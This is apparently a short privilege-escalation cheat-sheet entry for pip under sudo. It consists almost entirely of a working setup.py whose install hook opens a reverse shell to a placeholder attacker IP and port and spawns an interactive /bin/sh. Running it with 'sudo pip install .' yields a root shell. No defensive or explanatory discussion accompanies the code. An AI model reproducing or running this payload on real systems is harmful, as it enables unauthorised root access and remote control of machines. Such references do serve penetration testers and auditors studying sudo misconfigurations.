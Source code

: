 ```yaml
---
title: "pip"
date: 2024-7-5
tags: ["pip", "pip3", "python", "sudo", "privesc"]
---
```


### SUDO

#### 1. Create a setup.py

<div>

```console
#!/usr/bin/env python3

from setuptools.command.install import install
from setuptools import setup
import os
import socket
import subprocess

class Exploit(install):
    def run(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("<LOCAL_IP>",<LOCAL_PORT>)) # CHANGE HERE
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p = subprocess.call(["/bin/sh", "-i"])

setup(
    cmdclass={
        "install": Exploit
    }
)
```

</div>

#### 2. Exploit

<div>

```console
# Run
sudo pip install .
```

</div>

<br>
